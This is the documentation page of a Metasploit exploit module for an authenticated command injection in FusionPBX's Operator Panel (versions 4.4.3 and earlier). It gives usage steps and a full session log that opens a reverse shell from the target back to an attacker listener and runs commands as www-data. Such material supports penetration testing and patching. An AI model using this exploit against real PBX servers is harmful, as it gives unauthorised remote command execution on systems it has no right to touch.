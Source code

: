 ## Description

  This module exploits an authenticated command injection vulnerability
  in FusionPBX versions 4.4.3 and prior.

  The `exec.php` file within the Operator Panel permits users with
  `operator_panel_view` permissions, or administrator permissions,
  to execute arbitrary commands as the web server user by sending
  a `system` command to the FreeSWITCH event socket interface.


## Vulnerable Software

  This module has been tested successfully on FusionPBX version
  4.4.1 on Ubuntu 19.04 (x64).

  Software:

  * https://github.com/fusionpbx/fusionpbx/releases


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/fusionpbx_operator_panel_exec_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session


## Options

  **TARGETURI**

  The base path to FusionPBX (default: `/`)


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/fusionpbx_operator_panel_exec_cmd_exec 
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set rhosts 172.16.191.214
  rhosts => 172.16.191.214
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set username test
  username => test
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set password wBXxcY4LTAsMd46!
  password => wBXxcY4LTAsMd46!
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > run

  [*] Started reverse TCP double handler on 172.16.191.165:4444 
  [+] Authenticated as user 'test'
  [*] Sending payload (295 bytes) ...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo ULzaVUoa3XPSZANH;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "ULzaVUoa3XPSZANH\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.214:57626) at 2019-11-01 15:54:42 -0400

  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  pwd
  /
  uname -a
  Linux ubuntu-19-04-x64 5.0.0-32-generic #34-Ubuntu SMP Wed Oct 2 02:06:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```

